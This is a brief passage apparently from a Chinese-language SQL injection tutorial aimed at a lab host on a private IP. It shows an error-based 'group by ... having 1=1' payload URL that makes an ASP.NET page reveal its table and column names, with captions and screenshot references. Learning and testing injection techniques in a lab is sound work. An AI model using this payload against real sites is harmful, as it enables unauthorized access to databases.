 ![mysql](./img/1.4.6.png)

爆出当前表和字段

```
http://192.168.130.137/1.aspx?id=1 group by info.id,info.name having 1=1

```

![mysql](./img/1.4.7.png)

爆出所有的字段
